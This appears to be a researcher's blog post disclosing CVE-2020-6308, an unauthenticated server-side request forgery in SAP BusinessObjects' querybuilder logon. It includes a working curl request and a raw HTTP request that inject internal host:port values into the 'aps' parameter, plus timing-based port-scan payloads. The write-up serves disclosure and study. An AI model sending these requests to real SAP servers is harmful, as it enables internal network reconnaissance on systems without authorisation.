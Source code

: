 ```yaml
---
title: "SAP SSRF CVE 2020 6308"
excerpt_separator: "<!--more-->"
categories:
  - Blog
tags:
  - CVES
  - Penetration Testing
  - Insecure Code
---
```


SAP BusinessObjects Business Intelligence Platform (Web Services) versions - 410, 420, 430, allows an unauthenticated attacker to inject arbitrary values as CMS parameters to perform lookups on the internal network which is otherwise not accessible externally. 

<!--more-->

I reported the issue to SAP in May 2020 and patch released October 2020. You can go ahead and develop your own PoC futher, however, I'll provide a bit of background.
The CMS function doesn't validate the address given. If the host firewall isn't configured correctly, its possible to easily fingerprint for ports or internal network based on responses received from requests. I'll show in the below example how you can see open ports using the CuRL request..
In the below example I have a SAP Host (192.168.0.191), Attacking Machine (192.168.0.149) and another device e.g. internal router (192.168.0.1). 

Our SAP host has the following ports open:

![](https://github.com/InitRoot/CVE-2020-6308/raw/main/image.png)

And our internal router has the following open: 53,80,34573

![](https://github.com/InitRoot/CVE-2020-6308/raw/main/router.png)


So let's test this, we can identify open ports simply based on the timings of the request response. Examples below:

    time curl -i -s -k  -X $'POST' \
        -H $'Host: 192.168.0.191:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:81.0) Gecko/20100101 Firefox/81.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 120' -H $'Origin: http://192.168.0.191:8080' -H $'Connection: close' -H $'Referer: http://192.168.0.191:8080/AdminTools/querybuilder/ie.jsp' -H $'Cookie: JSESSIONID=8EE4AA85EB930DEB7090187F4CB4711B; developer_samples_app_lastusr=admin; developer_samples_app_lastaps=192.168.0.191; developer_samples_app_lastaut=secEnterprise' -H $'Upgrade-Insecure-Requests: 1' \
        -b $'JSESSIONID=8EE4AA85EB930DEB7090187F4CB4711B; developer_samples_app_lastusr=admin; developer_samples_app_lastaps=192.168.0.191; developer_samples_app_lastaut=secEnterprise' \
        --data-binary $'aps=192.168.0.1:53&usr=admin&pwd=&aut=secEnterprise&main_page=ie.jsp&new_pass_page=newpwdform.jsp&exit_page=logonform.jsp' \
        $'http://192.168.0.191:8080/AdminTools/querybuilder/logon?framework='

Testing the following payloads:

* 192.168.0.1:4
* 192.168.0.1:5

Here you can see closed ports test time results, average around 5ms..

![](https://github.com/InitRoot/CVE-2020-6308/raw/main/closedPortsTest.png)

* 192.168.0.1:22
* 192.168.0.1:80

Here you can see open/filtered ports test time results much larger..

![](https://github.com/InitRoot/CVE-2020-6308/raw/main/openPortsTest.png)
![](https://github.com/InitRoot/CVE-2020-6308-PoC/raw/main/SAPWireShark.png)

Now the below isn't ideal, as different routings, some firewalls can impact the results. However, it should give you an idea on where to start building a better exploit.. The above can be adjusted by creating a baseline then working further from there. I'd definitely advise looking at setting up a listener, then seeing what happens.



The below shows how the request will look in Burp with the APS parameter being the vulnearble injection point.
Simpler PoC would be to just inject a canary token value and wait for the trigger..
##  Web Request

    POST /AdminTools/querybuilder/logon?framework= HTTP/1.1
    Host: 192.168.0.191:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:81.0) Gecko/20100101 Firefox/81.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 128
    Origin: http://192.168.0.191:8080
    Connection: close
    Referer: http://192.168.0.191:8080/AdminTools/querybuilder/ie.jsp
    Upgrade-Insecure-Requests: 1

    aps=192.168.0.191&usr=admin&pwd=admin&aut=secEnterprise&main_page=ie.jsp&new_pass_page=newpwdform.jsp&exit_page=logonform.jsp


